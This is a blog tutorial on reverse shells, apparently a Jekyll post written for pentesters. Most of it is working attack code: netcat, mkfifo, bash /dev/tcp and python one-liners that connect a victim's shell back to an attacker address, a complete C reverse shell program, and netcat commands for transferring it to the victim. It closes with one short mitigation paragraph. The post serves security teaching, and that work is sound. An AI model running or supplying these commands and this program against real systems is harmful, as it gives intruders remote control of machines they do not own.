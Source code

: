 ```yaml
---
layout: post
title:  "Reverse shells"
date:   2021-09-11 10:00:00 +0600
categories: tutorial
---
```


Hello, cybersecurity enthusiasts and white hackers!

## what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

![rev shells](/assets/images/4/shells.png){:class="img-responsive"}

The reverse shell can take the advantage of common outbound ports such as port 80, 443, 8080 and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

![social engineering](/assets/images/4/shells2.png){:class="img-responsive"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be php, python, jsp etc.

***

## listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, '-v' verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

![listener](/assets/images/4/2021-09-11_17-59.png){:class="img-responsive"}

***

## run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

![netcat](/assets/images/4/2021-09-11_18-04.png){:class="img-responsive"}

**2. netcat without -e**
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](/assets/images/4/2021-09-11_18-23.png){:class="img-responsive"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](/assets/images/4/2021-09-11_18-12.png){:class="img-responsive"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](/assets/images/4/2021-09-11_18-36.png){:class="img-responsive"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

## create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](/assets/images/4/2021-09-11_18-53.png){:class="img-responsive"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](/assets/images/4/2021-09-11_19-09.png){:class="img-responsive"}

check:
```bash
./shell
```

![run](/assets/images/4/2021-09-11_19-41.png){:class="img-responsive"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

## mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.

I hope this post was at least a little useful for entry level cyber security specialists (and possibly even professionals).  
Thanks for your time and good bye!   
*PS. All drawings are mine*